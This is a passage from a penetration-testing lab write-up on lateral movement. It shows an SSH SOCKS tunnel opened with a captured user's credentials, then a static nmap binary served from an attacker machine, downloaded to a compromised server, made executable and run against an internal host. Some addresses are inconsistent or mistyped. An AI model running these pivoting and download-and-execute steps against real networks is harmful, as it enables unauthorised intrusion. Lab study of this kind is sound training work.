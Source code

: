 # Lateral Movement - 1

- [Lateral Movement - 1](#lateral-movement---1)
  - [SSH Tunnel](#ssh-tunnel)
  - [nmap scanning](#nmap-scanning)
  - [Jenkins](#jenkins)
  - [Local Enumeration](#local-enumeration)
  - [Domain Enumeration on Linux](#domain-enumeration-on-linux)
  - [Privilege Escalation to support](#privilege-escalation-to-support)
  - [Requests using support keytab](#requests-using-support-keytab)

---

## SSH Tunnel

Since we have the ssh credential of `iyer`, and we know there is a connection between the Production-Server and an internal address `10.1.3.1`, we can try to reach it via ssh tunnel.

First check out proxychain setting:

```
cat /etc/proxychains.conf | grep 9050
```

Then ssh to `192.168.3.8` using the follow command:

```
ssh -N -D 9050 iyer@192.168.8.3 
```

<br/>

## nmap scanning

First get a standalone version of nmap to the Production-Server.

(Source: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

<br/>

Host the binary on the attacker machine using python3:

```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
python3 -m http.server 80
```

<br/>

Then on Production-Server, download nmap and run the scan:

```
cd /tmp
wget http://192,168.100.11/nmap
chmod +x ./nmap
./nmap -n -Pn -T4 10.1.3.1 -p-
```
